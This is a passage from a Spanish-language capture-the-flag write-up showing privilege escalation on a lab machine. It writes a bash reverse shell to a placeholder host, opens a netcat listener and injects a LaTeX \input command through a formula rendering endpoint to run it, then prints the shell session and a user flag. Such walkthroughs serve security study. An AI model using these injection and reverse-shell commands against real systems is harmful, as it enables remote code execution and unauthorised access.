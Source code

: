 Ahora si leemos el archivo:

```
cat /tmp/pwned
```

Info:

```
uid=1000(trr0r) gid=1000(trr0r) groups=1000(trr0r),100(users)
```

Veremos que ha funcionado, por lo que vamos a probar a crear una `reverse shell` de la siguiente forma:

Vamos a crear antes el siguiente archivo:

```shell
nano /tmp/shell.sh

#Dentro del nano
#!/bin/bash

bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
```

Lo guardamos y ponemos permisos de ejecuccion.

```shell
chmod +x /tmp/shell.sh
```

Vamos a ponernos a la escucha:

```shell
nc -lvnp <PORT>
```

Ahora ejecutamos el siguiente comando para poder ejecutar dicho archivo como el usuario `trr0r`.

```shell
curl -X POST -d 'formula=\catcode`X=0 Xinput{|"bash /tmp/shell.sh"}' http://127.0.0.1:6200/render
```

Si volvemos a donde tenemos la escucha veremos lo siguiente:

```
listening on [any] 5555 ...
connect to [192.168.1.146] from (UNKNOWN) [172.17.0.2] 57472
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
trr0r@7cd57fc28af5:/$ whoami
whoami
trr0r
```

Vemos que ha funcionado, por lo que vamos a leer la `flag` del usuario

> user.txt

```
8bd192048459eed4a4e7271ed86ad884
```
